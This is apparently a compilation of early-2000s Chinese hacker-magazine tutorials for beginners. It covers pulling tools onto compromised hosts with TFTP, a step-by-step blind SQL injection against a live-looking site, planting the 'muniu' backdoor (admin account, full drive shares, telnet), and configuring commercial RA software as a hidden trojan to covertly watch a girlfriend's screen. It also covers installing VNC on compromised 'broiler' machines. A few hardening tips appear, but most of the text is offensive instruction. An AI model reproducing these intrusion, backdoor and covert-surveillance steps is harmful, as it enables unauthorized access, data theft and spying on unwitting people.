TFTP 自带的帮助信息：

```bash
TFTP [-i] host [GET | PUT] source [destination]
-i   Specifies binary image transfer mode (octet)
host Specifies the local or remote host
GET  Transfers file destination on remote host to local source
PUT  Transfers local source file to remote destination
source      Specifies the file to transfer
destination Specifies where to transfer the file
```

> “-i”选项定义二进制模式传送文件，很多 Exploit 代码需要这种模式；“host”是开启 Tftp 服务的主机（本地或远程）；“GET”下载；“PUT”上传；“source”是文件名。

下面举几个例子：

```bash
C:\Longker>tftp -i 202.xx.xx.165 get sc.exe
tftp -i 202.xx.xx.165 get sc.exe
Transfer successful: 63248 bytes in 1 second, 63248 bytes/s
```

这个是从开了 Tftp 服务的主机下载 `sc.exe` 程序，速度不错吧 :)

```bash
C:\Longker>tftp -i 202.xx.xx.165 put sc.exe
```

```bash
tftp -i 202.xx.xx.165 put sc.exe
Transfer successful: 63248 bytes in 1 second, 63248 bytes/s
```

上面是把 sc.exe 上传到 TFTP 服务器。

## 四、相关问题解答

由于 TFTP 是微软自带的，所以我们入侵了一台机子后，可用它来上传我们所要用到的工具，而不用下载其他工具了。前面的问题是解决了，或许菜鸟还会遇到些问题，比如要把上传的文件删除时出现错误提示：“拒绝访问！”怎么回事？那是因为用 TFTP 上传下载的文件默认具有只读属性，所以我们在删除前需要用 **attrib -R** 命令来去掉它的只读属性。

大家也知道，很多网络蠕虫或黑客攻击程序都尝试通过某种漏洞获得命令行的运行权限，而在获得权限的过程中，蠕虫往往通过 Windows 自带的 TFTP 客户端程序去获取一些需要的攻击程序或后门程序，如 nc 之类的工具。按新的和现在的 ASP 木马，也可利用 cmd.asp 调用 TFTP 来下载工具，进而获取系统管理员权限。注重安全的读者也许会问，万一我的机器也被入侵了，怎么防止入侵者使用 TFTP 呢？我这里介绍两种方法给大家。

### 图1：用 cacls 来限制用户对程序的访问

```bash
C:\>cacls
```

显示或修改文件的访问控制表（ACL）。

```text
CACLS filename [/T] [/E] [/C] [/G user:perm] [/R user] [/P user:perm [...]] [/D user [...]]
```

- filename：显示 ACL；
- /T：更改当前目录及其所有子目录中指定文件的 ACL；
- /E：编辑 ACL 而不替换；
- /C：在出现拒绝访问错误时继续；
- /G user:perm：赋予指定用户访问权限（R/W/C/F）；
- /R user：撤销指定用户访问权限；
- /P user:perm：替换指定用户访问权限；
- /D user：拒绝指定用户访问。

在命令中可使用通配符指定多个文件，也可在命令中指定多个用户。相关帮助信息如上，那我们可以禁止 iusr_computername 用户对 tftp.exe 的运行权限。

```bash
C:\>cacls c:\winnt\system32\tftp.exe /D iusr_computername
C:\>cacls c:\winnt\system32\dllcache\tftp.exe /D iusr_computername
是否确定(Y/N)? y
处理的文件: c:\winnt\system32\tftp.exe
处理的文件: c:\winnt\system32\dllcache\tftp.exe
C:\>tftp
拒绝访问
```

显然我们达到了目的。类似的我们可禁止 iusr 用户对 cmd.exe 的调用。

### 图2：能否把 TFTP 删除以绝后患

不行，因为在 Win2K 下，Tftp.exe 之类的系统关键程序受到 Windows File Protection 系统的保护，无法直接更改。这里我们介绍另外一种方法。

用文本编辑工具打开 `%systemroot%\system32\drivers\etc` 下的 services 文件，找到对应的 tftp 那一行：

| 服务名 | 端口/协议 | 别名 | 说明 |
|---|---|---|---|
| bootps | 67/udp | dhcps | Bootstrap Protocol Server |
| bootpc | 68/udp | dhcpc | Bootstrap Protocol Client |
| tftp | 69/udp |  | Trivial File Transfer |

将 “69/udp” 替换成 “0/udp”，并保存退出。我们再尝试看能否使用 TFTP？我们来比较处理前后的情况，如图4、图5。

```bash
C:\>tftp -i 202.xxx.xxx.165 get sc.exe
Transfer successful: 63248 bytes in 1 second, 63248 bytes/s
```

图4 处理前

```bash
C:\>tftp -i 202.xxx.xxx.165 get sc.exe
Timeout occurred
```

图5 处理后

怎么样，提示 “Timeout occurred” 了吧。如果你有更好的办法，可以和我联系交流（E-mail: webmaster@longker.com）。对 TFTP 的讲解就到这里了，希望对广大菜鸟和网络爱好者有所帮助。

由于个人思维和能力有限，难免有错误和疏漏，还请大家指正！


### 如何删除 GUEST 用户

一般情况下，GUEST 用户是不能删除的，因为我们拥有的权限是 ADMIN（管理员），所以我们要提升为 SYSTEM（系统）权限才可删除 GUEST 用户。这里我们借用一个工具——Ptsec（光盘中有收录）。如果在 ADMIN 权限下删除 GUEST 用户，会出现图1所示的错误提示。


删除内置帐户一般是在注册表里通过删除键值来实现，我们现在的权限是 ADMIN，所以 SAM 键值显示不出来（图2）。


到了这里，我们就要提升权限了（这里说明一下，提升权限必须为 ADMIN，GUEST 不能通过 Ptsec 来提升权限，请读者朋友注意）。在 CMD 下键入 `Ptsec /?`，我们先来看看它的命令参数。如图3中的横线上所示，`ptsec /di` 用来提升 SYSTEM 权限。


我们键入 `ptsec /di`，回车后出现图4的结果，并自动弹出图5所示的窗口。


我们在新弹出的窗口下键入 `regedit` 回车，出现了注册表编辑器（图6）。


在注册表中我们再来看看 SAM 键值（图7），看见没有，原来为 ADMIN 权限时 SAM 的键值不能显示，通过 Ptsec 提升 SYSTEM 权限后，SAM 的键值可以显现出来了。好了，我们来删除 GUEST 用户吧，只需把该键值删除即可。


删掉后我们用 `net user` 来看看是否还有 GUEST 用户（图8）。看见没有，原来的 GUEST 帐户已被我们删除掉了。我们再到“控制面板→用户帐户”里看看（图9），也没了吧！当然，你还可把其他没用的帐户删掉，以免非法入侵者克隆你的账号。


（本文的动画教程在光盘中有收录）

### 妙用 Shutdown 在 Win2000 中远程关机

在入侵过程中，常常需要远程主机重新启动、关机等操作。以前我也没有很好的办法，总是使用一些木马、后门程序。不过，最近发现 WinXP/2003 中自带的 Shutdown 程序在本地执行就可关掉远程主机。

Shutdown 程序是 Win2003/XP 特有的系统程序，在本地就可让远程主机重新启动/关机。在 Win2000 中没有这个功能，但我们可以从 WinXP 或 Win2003 中把这个程序“移植”到 Win2000 中。

### 移植过程

找一台装有 WinXP/2003 系统的计算机，从中搜索 Shutdown.exe，找到后拷贝到自己机器的 C:\WINNT 文件夹中，这样就可使用 Shutdown.exe 功能了。按以上方法做完运行后，如图1所示。


其中关于参数的说明已经很详细了，读者可自己试验，一般我只用以下几个参数：

- **-s**：关闭计算机（Shutdown）
- **-r**：重新启动计算机（Reboot）
- **-m \\ip**：指定被操作的远程计算机
- **-t xx**：指定多少时间后，关闭或重启目标计算机

### 实例说明

- 1. 与目标主机建立 IPC$ 连接（图2）。
- 2. 重新启动目标主机，执行命令（图3）。


```
Shutdown -r -m \\192.168.245.128 -t 00
```

这条命令的意思是：让 IP 为 192.168.XX.128 的目标主机马上重新启动；如果参数是 “-t 10”，就是让目标主机在 10 秒钟后重新启动。


通过 Ping 命令我们可知道目标主机已重新启动了（图4）。通过以上几个简单步骤，我们就可轻松关闭/重启目标主机了。

### SQL Injection 实例分析

sniper

最近 SQL Injection 攻击好像比较流行，看了安全天使写的一些文章后，笔者再结合一些入侵过程中的经验给菜鸟说说 SQL Injection 攻击的大概过程！

前几天帮 QQ 上的一个朋友测试站点安全，发现他用的系统存在 SQL Injection 漏洞，而且出错的信息也很有代表性，我就以这个系统来做例子。

首先，当我们要对一个系统进行 SQL injection 攻击时，不太可能知道数据库中保存密码的表和列等敏感数据。所以，在假设我们不知道对方系统类型的情况下，我将一次详细的攻击过程写出来，以让大家了解 SQL Injection 的原理。

```
http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1
```


根据经验，像这样有 “*.asp?xx=*” 的页面通常都存在漏洞。我测试了一下，递交了这样的 URL：

```
http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and 1=1  // 在后面跟一个等式（图1）
http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and 1=2  // 跟一个不等式（图2）
```


### 傻瓜黑客

结果返回的页面是 2 个，如果后面跟的等式，会正确返回文章；如果跟的是一个不等式，就会返回“无权限访问或无此内容”。其实存在这个漏洞的系统大部分都有这个特点：如果在页面的 URL 后跟一个等式，一般会返回一个和没加等式前一样的页面；而如果是一个不等式，就会返回各种错误信息（这个就要自己去判断了。如果对方返回的是“请不要递交非法参数”，那么……）。好了，我们现在来试试对方保存管理员账号信息的表名，递交这样的 URL：

```
http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 or 0<>(select count(*) from admin)
```

解释一下，我们猜测数据库里有一个叫 admin 的表，结果页面正常显示，说明的确有个叫 admin 的表（图3）；如果返回错误信息，那就猜错了，把“(select count(*) from admin)”中的 admin 换成其他的试试。我们再来看这个表中保存用户名的列叫什么：

```
http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and 0<>(select count(*) from admin where username<>'')
```

这个 URL 的意思是：试试 admin 表中是否有 username 这个列，也是返回了正常的文章页面，猜对了！

```
http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and 0<>(select count(*) from admin where password<>'' )
```

这个 URL 的意思是：试试 admin 表中是不是有 password 这个列，结果返回一堆错误信息，猜错了！我们再来试试：

```
http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and 0<>(select count(*) from admin where passwd<>'' )
```


图3

这个 URL 的意思是：看看表中保存密码的列名是不是 passwd，结果返回正常显示的文章，猜对了！现在，我们得到了一些关键信息：数据库中有个 admin 表，管理员用户名保存在表中的 username 列，密码保存在 passwd 列。知道这些信息后就可开始猜用户名和密码了。好了，我们继续！

```
http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and 'sniper'=(select username from admin where username='sniper')
```

意思不用我说了吧，目的是测试 admin 表中的 username 列是否有一个叫 sniper 的管理员用户名，结果返回文章，说明有一个叫 sniper 的管理员。如果猜错了，把 URL 中的 sniper（2 个 sniper 都要改）换成其他用户名即可。我们再来看看密码的位数：

```
http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and sniper'=(select username from admin where len(passwd)=1)

http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and sniper'=(select username from admin where len(passwd)=2)

...

http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and sniper'=(select username from admin where len(passwd)=16)
```

试到这里，我就开始怀疑密码是不是经过 MD5 加密的了，于是便没有继续猜下去。当然你也可写个小程序来猜，我们已得到了表名和列名，写个程序很容易。在其他一些系统中，密码并没有经过 MD5 加密，我们可通过以下 URL 来试密码：

```
http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and sniper'=(select username from admin where left(passwd,1)='1a')

http://211.91.*.*/gd/2/ReadNews.asp?NewsID=1 and sniper'=(select username from admin where left(passwd,2)='1a')

……（left(passwd,x)='y' 中的 x 表示取密码前几位，y 是你要试的密码）
```

在 SQL injection 攻击中，还要注意哪些地方要打单引号，哪些不要，这个就看大家去试试了（这样才记得牢）。因此，强烈建议大家去下载一套尘缘雅境图文系统（光盘中有收录，我试的版本是 2003.1 出的）来实验，一些相关资料我会整理后面贴在《黑客 X 档案》论坛的雪候鸟版块（http://www.hackerxfiles.net/bbs）。

至此，一次完整的 SQL injection 攻击就完成了。这种攻击方法较麻烦，要耐着性子去猜，但其作用不可小觑！我最近就发现当地的电信和政府部门都有这个漏洞。由于写得很匆忙，有错误或不足的地方还请各位指正！

## 远程控制：网络安全

以下问答所涉及内容仅限接触网络安全技术的新手观阅，对于一些网络高手及老鸟，不值一观，否则本文将贻笑大方，被其嗤之以鼻。

- 新手问：什么是远程控制？  
  Sagi答：平时我们在自己的电脑前安装程序、观看 VCD/DVD、听 MP3、玩电脑游戏、上网浏览、用 QQ 与朋友聊天什么的，从控制方式来说属于本地控制。而远程控制嘛，简单点说，就是控制远方的一台电脑，可以在远方的电脑上实现安装、修改、删除文件，添加、清除服务。

- 新手问：获取远程控制的方式有哪些？  
  Sagi答：获取远程控制的方式我认为有以下三种：1、利用远程电脑上存在的系统安全漏洞以及设置上的漏洞来获得远程电脑的控制权。2、利用远程电脑上被开启的后门服务及后门账号来进行远程控制。3、利用远程控制软件及特洛伊木马程序来实现对远程电脑的控制。

- 新手问：能否具体地讲一下如何实现远程控制的权限呢？  
  Sagi答：利用远程电脑上存在的系统漏洞，其实就是远程溢出攻击了。像 idq、Unicode、printer、MDAC/RDS 等溢出攻击。利用这些漏洞，我们可以轻松地得到远程电脑的系统管理员权限，从而实现对远程电脑的控制。为了可以长久地控制远程电脑，我们在成功登录了远程电脑后，大多数情况下都是开启后门服务（telnet、ftp、rhosts）或添加后门账号，而并非是多次地对远程电脑进行溢出攻击。通过这些后门服务及后门账号，我们可以非常方便地与远程电脑建立连接，控制对方。在前期的杂志中有许多攻击教程，对于上面提到的溢出攻击及后门制作讲得很详细，你们可以看一看。利用远程控制软件及特洛伊木马程序实现对远程电脑的控制，是许多网络新手所喜爱的一种方式，相比起前面两种方法来，技术含量相对较低，技术操作上也比较容易掌握。

- 新手问：远程控制软件及特洛伊木马程序的功能确实非常强大，它可以让我们事半功倍，那么我们如何让远程电脑中“木马”呢？  
  Sagi答：这个方法就有很多了。比如我们对远程电脑进行了远程溢出攻击或用弱口令与远程电脑进行了 IPC$ 连接，控制了远程电脑后，就可以将设置好的服务端程序上传至远程电脑上去执行。另外还有一个就是利用资源共享漏洞，还有就是作为电子邮件的附件发送到远程电脑的电子信箱中，或通过 QQ 将服务端程序发送给对方。当然在这之前，对服务端程序进行伪装是很有必要的，它可以让你成功的机会大大地增加。

- 新手问：我们如何知道远程电脑上是不是中了“木马”呢？  
  Sagi答：用“木马”的客户端连接一下不就知道了吗。

- 新手问：当我们用远程控制软件或特洛伊木马程序控制远程电脑的时候会不会被对方看到呢？  
  Sagi答：有一些远程控制软件及一些特洛伊木马程序在控制远程电脑的时候，要么就是在对方的屏幕上也显示出操作的情况，要么就是远程电脑上能明显地感觉到不正常，例如速度变慢什么的。这样就很容易被对方所察觉，当然有一些木马程序在这一方面还是不错的，对方几乎不能明显地感觉到什么。

- 新手问：如果使用远程溢出及弱口令攻击，或是使用后门服务及后门账号控制远程电脑，那么会不会被对方发现呢？  
  Sagi答：理论上讲，只要对方管理员心细、技术高，就有可能发现，不过总的来说，利用这两种方法控制远程电脑还是要比远程控制软件及特洛伊木马程序隐蔽，而且还不必担心防火墙。

- 新手问：我们如何知道自己的电脑有没有被“远程控制”呢？  
  Sagi答：本期“黑客研究院”里有一篇《如何搜寻黑客的影子》可以帮你的忙，同时不妨看看前几期的杂志。

- 新手问：我们如何才能做到只允许我们远程控制别人的电脑而不被别人远程控制呢？  
  Sagi答：OH!!! 你的问题提得太深奥了，因为我自己都无法保证做到这一点。看来我得到论坛上去请教一下高手了。

整个问答到此中断，因为 Sagi 已经到一些论坛上去请教这个问题去了，不知“斑主”会不会把他给踢出来，呵呵……


### 后门程序“木牛”的使用方法简介


菜牛

这款软件是“牛族安全网” http://www.niuzu.net 的原创作品。很多后门程序因为体积小、运行隐蔽、操作简单等优点深受广大朋友喜爱，但现在很多后门程序都被病毒防火墙查杀。闲暇之余，写出这个小程序，代码全是 Windows 系统自带的服务命令，不会被查杀。

它包括两个小程序：muniu.exe 和 clear.exe，使用简单方便，程序体积小，两个文件就几十K，适合在 Win2000/XP 环境下使用。下面给大家介绍使用方法。

### 一、功能介绍

工具文件名：muniu.exe（木牛）。

运行后，主机硬盘上所有盘符共享（完全控制权限），开启 ADMIN$、IPC$ 共享，开启 TELNET 服务，自动创建一个管理员权限账号：IUSR_COMPUTER，密码 IUSR_COMPUTER。

### 二、使用方法

- 1. 先通过 IPC 管道连接远程主机，然后把 muniu.exe 和 clear.exe 复制到远程主机 `c:\winnt\system32\` 目录下。

```bash
net user \\ip\ipc$ "pass" /user:"name"
```


图 1

- 2. 用 AT 命令运行 muniu.exe。

```bash
at \\ip time muniu.exe
```


图 2

或者用流光的种植者远程运行，或用其它 IPC 连接工具等。程序运行后远程服务器所有硬盘盘符自动完全共享，如图 3 所示。


图 3

我们在本机点击“开始”→“运行”，在对话框中输入“\\远程ip”，回车后，输入程序自动创建的账号和密码“IUSR_COMPUTER”，进入远程主机后，你就可以浏览共享硬盘资料，也可以直接复制或粘贴，如图 4 所示。


图 4

- 3. 还可以通过 TELNET 登录远程服务器。先在本机创建与 IPC 连接账号相同的用户（如 abc），加入 Administrators；再以该用户身份运行命令提示符，输入账号密码后执行 `telnet x.x.x.x`，即可不需要密码登录远程主机。


### 三、辅助程序：clear.exe

这个是一个清除取消后门功能的程序，我们把它和 muniu.exe 一起复制到远程主机上。比如，你利用木马后门已经达到了你需要的目的后，为了避免让对方管理员发现，我们可以在远程机器上运行 clear.exe 这个程序。运行后，远程主机上被木牛所开的硬盘完全共享将会取消掉，并把 TELNET 服务停止，但保留 ADMIN$、IPC$ 和新创建的管理员账号，因为我们还是需要 IPC 管道来进行下次连接。至于管理员账号，当然是要留住的啦。关闭 TELNET 服务也是为了避免管理员发现，需要开的时候，可以运行 muniu.exe 再次开启。

本程序只供学习研究，适合新手。关于木牛的最新动态，大家可以访问 www.niuzu.net。

## 牧马记

### 流行木马技术盘点

随着网络的发展、安全意识的提高，人们对木马程序的防范意识越来越强，防范方法和工具也越来越多，但是木马也一直在发展进化，各种木马技术层出不穷，下面我就时下流行木马技术作一盘点，希望对大家了解和防范木马有所帮助。

### 一、反弹端口技术

> **反弹端口原理**：由木马服务端主动连接客户端，因此在互联网上可以访问到局域网里通过 NAT、代理（透明代理）上网的电脑，并且可以穿过防火墙（包括包过滤型及代理型防火墙）。

防火墙对于连入的连接往往会进行非常严格的过滤，但是对于连出的连接却疏于防范。于是，与一般的木马相反，反弹端口型木马的服务端（被控制端）主动连接客户端（控制端）。为了隐蔽起见，客户端的监听端口一般开在 80（提供 HTTP 服务的端口），这样，即使用户使用端口扫描软件检查自己的端口，发现的也是类似 TCP UserIP:1026 ControllerIP:80 ESTABLISHED 的情况，稍微疏忽一点，你就会以为是自己在浏览网页（防火墙也会这么认为的）。

国外的木马“Boinet”是最先实现这项技术的木马，它可以通过 ICQ、IRC、HTTP（写入 CGI 编码）和反向主动连接这四种方式来联系客户端，如图 1 所示。


国内最早实现反弹端口技术的木马非网络神偷莫属，而灰鸽子则是这项技术的集大成者。它内置 FTP、域名、服务端主动连接（如图 2 所示）这三种服务端上线通知功能。在“服务端在线列表”里可以看到服务端的 IP 地址、地理位置、上线时间等信息一目了然。


### 二、木马进程注册为系统服务

传统木马主要通过修改启动组/注册表/autoexec.bat/win.ini/system.ini/wininit.ini/*.inf（例如 autorun.inf）/config.sys 来实现自启动。将木马进程注册为系统服务主要是利用了在 NT/2K/XP 这些系统中，系统启动时会加载指定的服务程序，这样可避免传统的木马启动方式，并使木马进程更具迷惑性。相应工具虽来自 MS Windows2000 Resource Kits，如图 3、图 4 所示。


### 三、无进程、无端口的 DLL（动态链接库）木马

这类木马涉及比较高深的编程技术（Windows Socket 2 SPI 技术），在此，我只能简单地介绍一下它的实现原理。

> 所谓的无进程实际上是将 DLL 木马注入到其它 EXE 文件中，使其成为木马的合法载体（一般黑客会选择 Explorer.exe、Svchost.exe 等系统关键性服务程序）。所谓的无端口，实际上是重复利用已经开启的常用端口（如 80、135、139 等）来传送数据，从而避免开新端口并绕过防火墙。

### 四、三（多）线程技术

在操作系统中，进程是存储器、外设等资源的分配单位，同时也是处理器调度对象。为提高并发性，Windows 引入线程概念，一个进程可同时拥有多个并发线程。三线程木马通常包含主线程（远程控制）与两个辅助线程（如监视线程与守护线程）：前者检查木马程序及注册键值是否存在并在异常时恢复，后者在木马被停止后重新拉起并维持持续运行。

### 五、无客户端木马

这类木马本质上是加强版后门程序，常安装在防范薄弱的服务器（俗称“肉鸡”）上。所谓无客户端，是指几乎任何网络相关程序都可用于控制，如 Telnet、IE、Flashget、CuteFTP 等；甚至可跨平台从 Unix/Linux 或路由器等终端进行管理。随着固定 IP 上网普及，对此类木马（如蓝色火焰、winshell 等）的防范意识应进一步提高。


## （RA 远程控制软件相关）


图 1

但是，国内的几家杀毒公司却把它列入了黑客木马的查杀名单，原因自然是因为 RA 对网络安全存在威胁性，但这样一个商用软件怎么能被黑客们当作木马来使用的呢？这就是本文重点要讲述的。由于这个软件的商业性质，国内用过这款软件的人不多（我想很少有人会真的给老外寄去 20 美元吧），至少我除了在木马帝国外没看见哪里还有人使用它。为了让大家有个大概的了解，我先粗略介绍一下这个软件的主要功能。

### 功能介绍

- 1. 远程屏幕控制（Remote-Control）：32 色的远程屏幕监控，仿佛置身在电影院一般，同时在屏幕上鼠标的各种点击都会被迅速地传达到远方电脑上执行。
- 2. 文件管理（File-Transfer）：像资源管理器一样浏览双方文件，用鼠标拖曳上传或下载文件，直接拖过去就可以传送。
- 3. 紧急对话（SOS Calls）：商业软件主要特征，也就是服务端可以找客户端聊天，甚至盘查客户资料、命令，到底谁控制谁？
- 4. 文字聊天（Text-Chat）：商业软件特征的延续，双方都拥有主动请求聊天的权利。
- 5. 命令操作（Power Management）：只要能够查看屏幕，点击鼠标右键便会出现所有的命令菜单，可以直接用这些命令进一步管理对方。注：客户端和服务端均可。
- 6. 口令获取（Password Recovery）：可以获得对方机器中的缓存口令。

下面我就给大家讲讲这个杰出的远程控制软件是怎样被用在黑客攻击上的。

### 一、使用前的配置工作

### 1、服务端配置

运行 slave.exe，任务栏中会出现一个红色的救生圈图标，如图 2 所示。右键点击这个图标，选择 options，如图 3 所示，就会自动跳出服务端的配置框，如图 4 所示。


图 2


图 3

```bash
slave -o trial
```

是服务端原始密码，如果修改过，这里也要相应改变。


图 4

既然要把 RA 作为木马使用，首先就必须把它的服务端很好地隐藏起来，不能像商用的默认配置那样还让服务端在任务栏中显示图标。那么，我们应该怎样配置服务端呢？将 Tray Menu 中的四个选项全部去掉，然后需要修改端口、密码和邮件通知。如果设置了邮件通知，服务端 slave 上线后就会给你发邮件通知你，如图 5 所示。


图 5

> **注意**：图中所配的是 21cn 的信箱，但实际上 21cn 的信箱已经不支持匿名 smtp 了，我这里仅为举例方便而写，真正设置的时候必须用支持 smtp 且不需 smtp 验证的信箱才可以。

点击“Define Enable Master Features”会出现一个打满勾的小框，如图 6 所示。这些都是客户端支持的命令，看着即可，不用设置。然后点击“OK”，生成新服务端，这样就完成了。


图 6

设置完成以后点一下“Apply”，这个配置框会消失掉，不要惊慌，我们再重新打开。点击右下角的“Create my_Slave”，这时又会跳出一个小框提示你生成的服务端路径是 `c:\windows\my_slave`，我们现在就去 `c:\windows` 目录下把这个 my_slave 复制出来，这就是我们配置好的服务端了。

> **注意**：我们最初点击的那个服务端 slave.exe 并没有被配置，不要把两个弄混了。

最后，我们运行一下软件自带的那个“uninstall_slave.exe”服务端卸载程序，这样原版服务端就被彻底从我们电脑上清除了。

### 2、客户端配置

服务端上面已经配置好了，下面我们再来配置客户端。打开客户端 master.exe，点击右下角的一个画有扳手的图标（鼠标所指），如图 7 所示。出现一个配置框，将“Inform Slave when we connect”前面的勾去掉，不然当客户端连接到服务端时，服务端将出现提示，这样就把木马暴露了。然后把“Log”中的 in a file、connection 中的 Streaming、User Interface 中的 Kill wallpaper 前面的勾去掉。再填上与服务端配置一致的端口，Max FPS 默认是 10，如果是拨号上网那就填 8-15 之间即可，数值越大你每秒钟截到的屏幕数就越多，宽带的话可以选用 20 以上。点击 OK 保存设置，正确配置好后如图 8 所示。


这个软件最麻烦的就是服务端和客户端的配置，很多人配置不好所以不会使用。

### 二、使用方法

现在我们可以让对方运行 my_slave 了。假如对方是你的女友（打个比方），如果你想知道她平时上网喜欢做些什么，那么就把服务端让她运行后，你打开客户端 master.exe，点击 Edit（鼠标所指），如图 9 所示，就会出现一个框，如图 10 所示。填入你女友的 IP 地址、端口、密码，完成后点击“Add New”就可以了。


回到客户端主界面，可以看到刚才添加的 IP 已经出现在列表中了。在客户端左下角有五个按钮，把鼠标停留上去可以在下面的空白栏中看到相应的说明。

- 1、屏幕监控


双击列表中的 IP 地址或者点击第 5 个按钮，就开始连接了。连接成功后将直接出现对方的电脑屏幕，如图 11 所示（对方正在聊天^^）。

以后的一切操作都将在这个屏幕上进行。将鼠标放在屏幕监视框的最上面蓝色区，点击右键，会出现一长列命令菜单，如图 12 所示。

如果你只想监视，那么在“monitor only”选项上点一下，会出现一双眼睛，你再把鼠标停留在屏幕的任何地方，鼠标上就会带一双大大的眼睛，表示你目前对对方正处于监视但不操作状态。如果在“monitor only”上再点一下，鼠标上的大眼睛就会消失，这样你就可以操作对方屏幕了。打开我的电脑、运行、删除文件、关掉任务栏的图标什么的都可以，就和操作自己电脑一样！

### 2、电影录制

如果你想把服务端 slave 一段时间的屏幕情况保存下来以后观赏，只要在那一长列菜单中选择“create movie”，就开始录像了。你会发现 master 目录中有一个 flm 结尾的文件在不断增大，这就是你正在录制的电影。录制结束后，你可以用 RA 自带的 player 播放器打开刚才录制的电影文件进行播放，如图 13 所示。


图 13

### 3、文件管理

在那一长列命令菜单上选择“transfer files between pcs”，这时会单独弹出一个文件管理器，展开双方的文件夹。如果要下载对方的文件，只需要用鼠标按住该文件，如图 14 所示中的“炫.jpg”，拖到我的 E 盘中，这时会出现一个提示框（如图 15 所示），询问你是否要复制文件过来，当然选 YES 了。

传输文件时有进度条显示，非常直观。


图 14


图 15

### 4、远程运行

传送文件本来就是在后台运行的，但打开文件的时候是不能明目张胆地在对方屏幕上去双击的，否则你就准备和你的女友拜拜吧。正确的打开方法是，在那一长列命令菜单中选择“send commands to slave”，这将弹出一个小框。如果你要运行的文件位置是 `c:\windows\server.exe`，那么就在小框中输入 `c:\windows\server.exe`，然后回车，这样文件就远程运行了。

### 5、客服聊天

客户端可以和服务端直接对话，本来任何一方都可以主动请求，但由于现在把服务端配置成在任务栏不显示图标，那么现在只能由客户端主动请求了。点击客户端界面左下角的第 3 个按钮，会出现一个聊天窗口，输入文字发送后服务端电脑上也会出现一个同样的窗口，双方就可以开始点对点聊天了，如图 16 所示。


图 16

### 6、其他命令

在那一列菜单中还有许多管理命令，如重启动“slave”，通过“get password”得到缓存密码等，还可以让你远程执行一些组合热键，如图 17 所示。这些都比较简单，限于篇幅，我就不再详解了。


图 17

### 7、另类应用

这是我玩 3389 肉鸡时发现的一个用法。常玩 3389 的朋友们肯定知道，如果用某个账户登录后是看不到当前的用户正在做什么操作的，即使你是 Administrator 登录也不能看到。

通过查看所有用户的进程来揣测当前的管理员在干什么，你就算在当前账户上上传了冰河、sub7 这类的木马也只能看到你当前账户下的桌面情况，毫无用处嘛！但 RA 不同，你在 3389 任何一个账户运行 RA 服务端，你再用客户端去连接这个 IP 地址，你会惊奇地发现你看到的是当前管理员正在工作的桌面，这是因为 RA 的启动方式和其它木马完全不同。其它木马是通过在注册表启动项里面的键值启动的，而 RA 则纯粹是通过注册成系统服务来启动的，这样一来，RA 就可以使我们上 3389 肉鸡时查看肉鸡管理员的真实情况。

### 8、注册和下载

因为 RA 是商用软件，需要付费注册，但黑客用注册机一样可以解除使用限制。目前我手里只有 3.64 版的注册机，但还是可以为 3.75 版的 RA 注册。

```text
注册版下载地址 http://down.nmbest.com
```

### 三、删除方法

现在既然是把它当黑软介绍，那么删除方法是必不可少的。因为它本来就不是木马，所以我们在注册表中根本找不到它的启动键值，它实际上是采用系统服务的方式启动的，如图 18 所示。


图 18

我们可以用 RA 自带的“uninstall_slave.exe”来卸载它，也可以手动删除。因为 RA 在系统中的进程名称是 slave.exe，所以我们终止这个进程后，再到 Windows 目录下找到 slave.exe 将它删除；也可以先在系统服务中停止并禁用 RA server 服务，再到 Windows 目录下删除 slave.exe。

### 四、总结

小鱼儿讲了这么多，大家现在觉得 RA 是不是很有用呢？我再强调一次，它的屏幕监控实在太爽了，世界上目前没有任何一个木马能够比得上它这个功能的 1/5！其流畅和清晰程度让人瞠目结舌！几乎可以赶上用宽带看电影的速度！


> 因为 RA 本身不是木马，所以任何反病毒公司把它列为查杀对象都是不合理的。比较一下国内和国外的反病毒软件，大家可以清楚地看到他们在对待所谓“病毒”上的差异。

### 菜刀猪的远程控制软件

iceyes

我想看这本杂志的 GG 和 MM 基本上是和我一样的菜鸟，身为菜鸟当然知道菜鸟的苦衷。能完全控制一台主机，是每一位初学者的心愿。现在能实现远程的软件错综复杂，但大多数是木马。然而所有的木马命运都将和冰河一样，虽然能辉煌一时，但是最终都会被写入杀毒软件的黑名单，因此我们需要经常换工具，这也许会给初学者带来一定的麻烦。对于每份菜鸟来说，肉鸡最好是有远程终端服务的，但是我们得到的那些主机有这样的服务很少。因此经常有人问我要开 3389 的肉鸡。下面我给大家推荐一样永远不会被查杀的“木马”，希望大家看了这篇文章以后别再向我要肉鸡了！^_^

### 一、VNC 简介

VNC 是一款基于远程截图控制软件，与 pcanywhere 一样它在网络中使用非常广泛，能运行于 Linux、Solaris、Windows9x/2000/NT 及 Macintosh 等系统中。默认端口为 5900，客户端主程序 vncviewer.exe，服务端主程序 winvnc.exe。VNC 有点类似 Win2000 的终端服务，相对于其它的远程控制软件，主要体现了五个优点：

- 1. VNC 远程控制时，客户端的任何异常都不会对服务端造成影响。
- 2. VNC 的控制流很小，而且不需要任何安装，是居家旅行时的必备软件；而且 VNC 有 Java 的控制端，不需要其它工具，浏览器就可以直接控制。
- 3. VNC 实现了真正的跨平台，你可以在 Unix 下控制 Windows，或者在 Windows 下控制 Unix。
- 4. 一个桌面可以同时被多个用户使用，交流非常方便，可做教学之用。
- 5. VNC 符合 GNU 风格，开放源代码。

### 二、操作过程

- 原料：IPC 肉鸡一台（拥有管理员权限）
- 工具：strcm 和 VNC
- 下载地址：http://iceyes.vsvs.net/rar（汉化版）

在这里 strcm 和 VNC 各自承担的工作不同。在与远程主机建立连接的情况下，strcm 利用这个通道将 VNC 远程安装到主机上。下载安装软件解压，文件如图 1 所示。

## 牧马记

### 远程操纵我的电脑

现在登录你的肉鸡，运行 C:\命令提示符。（你用 Win98 了吗？找不到那东东了吧！想要学习网络技术，你还是丢了你的 98 装 2000 吧！）建立 IPC 连接，如图2所示。

